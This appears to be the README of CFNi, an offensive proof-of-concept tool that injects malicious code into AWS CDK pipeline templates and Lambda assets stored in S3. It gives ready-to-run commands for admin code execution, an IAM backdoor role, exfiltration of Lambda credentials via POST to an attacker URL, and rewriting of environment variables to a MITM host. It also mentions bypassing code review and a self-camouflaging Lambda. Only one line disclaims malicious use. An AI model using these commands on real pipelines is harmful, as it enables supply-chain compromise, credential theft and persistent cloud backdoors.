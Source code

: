 # CFNi - Cloudformation injection
![Build Status](https://github.com/hupe1980/cfni/workflows/build/badge.svg) 
[![Go Reference](https://pkg.go.dev/badge/github.com/hupe1980/cfni.svg)](https://pkg.go.dev/github.com/hupe1980/cfni)
> CFNi is a proof-of-concept to demonstrate an attack on the populare aws cdk pipeline. It takes advantage of the fact that between the "Synth" step and the use of the cloudformation templates and lambda assets some time passes ("SelfMutate") and no integrity check is performed by default. After receiving an event from s3, the lambda function injects the malicious code/resources into the generated files. SAST/DAST controls and pull request reviews are bypassed and other accounts can also be attacked if the pipeline supports crossaccount deployments.

:warning: This is for educational purpose. Don't try it without permission!

## IAM
CFNi is designed to use a secondary account that you have full access to. The lambda is deployed there. This eliminates the need to have the required permissions in the target account. The credentials for this account should be specified with the `--attacker-profile` flag.

The `--bucket-profile` should have s3:PutBucketNotification permission to the targeted S3 bucket.

The `--s3-access-key-id`, `--s3-secret-access-key` and optionally `--s3-session-token` should have s3:GetObject and s3:PutObject permissions on the target S3 bucket. These credentials are hardcoded into the lambda during deployment and used to read the bucket files and inject the malicious code/resources.

Everything can also only be done in the bucket account. To do this, the same profile must be specified for the `--attacker-profile` and `--bucket-profile` flags. If no access-key is specified, CFNi tries to give the LambaExecutionRole the required s3:GetObject and s3:PutObject permissions.

## Bucket
The relevant bucket can be found in the build project (Synth) under artifacts upload location.

![bucket](assets/artifacs_bucket.png)

## Attacks
The proof-of-concept currently supports the following attacks:
- [CFN Code Execution](#cfn-code-execution)
- [IAM Role Backdoor](#iam-role-backdoor)
- [Lamda Exfiltration](#lambda-exfiltration)
- [Lamda Set Envs](#lambda-set-envs)

### CFN Code Execution
Adds a custom resource with admin permission to run custom code

```
Usage:
  cfni cfn-code-execution [flags]

Examples:
cat > input.js << EOF
async function cfni(event, context) {
	console.log(event)
	return {}
}
EOF

cfni cfn-code-execution --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX -f input.js --runtime nodejs16.x

Flags:
  -b, --bucket string                 bucket name (required)
      --custom-type string            custom type of custom resource (default "CFNICustomResource")
      --environment strings           filter environments (default all environments)
  -f, --filename string               filename of the code execution file
  -h, --help                          help for cfn-code-execution
      --locigal-custom-id string      logical id of custom resource (default "CFNICustomResourceCE34F12B")
      --locigal-lambda-id string      logical id of lambda (default "CFNILambdaFB14A34E")
      --locigal-role-id string        logical id of role (default "CFNIRoleAF22D32D")
      --runtime string                runtime of the code execution
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)
      --stage strings                 filter stages (default all stages)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
      --bucket-region string      bucket AWS region
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```


### IAM Role Backdoor
Adds a role with admin permissions.

```
Usage:
  cfni iam-role-backdoor [flags]

Examples:
cfni iam-role-backdoor --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX

Flags:
  -b, --bucket string                 bucket name (required)  
      --environment strings           filter environments (default all environments)
  -h, --help                          help for iam-role-backdoor
      --logical-id string             logical id of the backdoor role (default "MaintenanceRoleBF21E41F")
  -p, --principal string              principal for backdoor role (default root principal of the attacker account)
  -r, --role-name string              name of the backdoor role (default generated role-name)
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)
      --stage strings                 filter stages (default all stages)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
      --bucket-region string      bucket AWS region
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

### Lambda Exfiltration
Injects a script that executes a post request with the lambda's environment variables as the body. access-key-id, secret-access-key and session-token are included in the payload.

```
Usage:
  cfni lambda-exfiltration [flags]

Examples:
cfni lambda-exfiltration --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX --url https://xxxyem3.oastify.com

Flags:
  -b, --bucket string                 bucket name (required)
      --environment strings           filter environments (default all environments)
  -h, --help                          help for lambda-exfiltration
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)
      --stage strings                 filter stages (default all stages)
  -u, --url string                    exfiltration url (required)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
      --bucket-region string      bucket AWS region
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

### Lambda Set Envs
Sets lambda environment variables.

```
Usage:
  cfni lambda-set-envs [flags]

Examples:
cfni lambda-set-envs --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX --env API_URL=https://mitm.org

Flags:
  -b, --bucket string                 bucket name (required)
      --env stringToString            lambda environment variable (required)
      --environment strings           filter environments (default all environments)
  -h, --help                          help for lambda-set-envs
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)
      --stage strings                 filter stages (default all stages)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
      --bucket-region string      bucket AWS region
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

## Camouflage
If the lambda is deployed in the bucket account, it camouflages itself ;o)

![camouflage](assets/camouflage.png)

## License
[MIT](LICENCE)